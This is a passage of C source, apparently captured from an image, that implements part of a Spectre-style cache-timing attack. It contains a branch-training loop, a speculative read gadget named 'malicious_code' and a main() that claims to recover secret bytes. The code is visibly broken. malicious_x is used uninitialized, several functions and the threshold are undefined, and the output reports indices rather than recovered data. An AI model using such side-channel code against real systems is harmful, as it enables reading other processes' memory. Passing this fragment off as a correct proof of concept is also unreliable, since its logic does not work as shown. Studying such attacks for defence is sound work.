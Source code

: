 ```c
    if (x < data_length) {
        temp &= timing_array[data[x] * CACHE_LINE_SIZE];
    }
}

void spectre_attack(const uint8_t *data, size_t data_length, uint8_t *output) {
    size_t training_x = 0;
    size_t malicious_x;

    for (size_t i = 0; i < 256; i++) {
        flush_cache();

        // Pętla treningowa
        for (int j = 0; j < 30; j++) {
            _mm_lfence();
            malicious_code(training_x % data_length, data, data_length);
        }

        // Atak
        _mm_lfence();
        malicious_code(malicious_x, data, data_length);

        // Analiza czasów dostępu do timing_array
        for (size_t i = 0; i < CACHE_SIZE; i++) {
            uint64_t time = measure_access_time(&timing_array[i * CACHE_LINE_SIZE]);

            if (time < threshold) {
                output[i]++;
            }
        }
    }
}

int main() {
    uint8_t secret_data[] = "Spectre - Secret Data";
    size_t data_length = sizeof(secret_data);
    uint8_t output[256] = {0};

    srand(time(NULL));
    size_t malicious_x = (size_t)(secret_data - (char *)timing_array + (rand() % 256));

    spectre_attack(secret_data, data_length, output);

    for (size_t i = 0; i < 256; i++) {
        if (output[i]) {
            printf("Recovered byte at index %zu: 0x%02x ('%c')\n", i, i, (char)i);
        }
    }

    return 0;
}
```
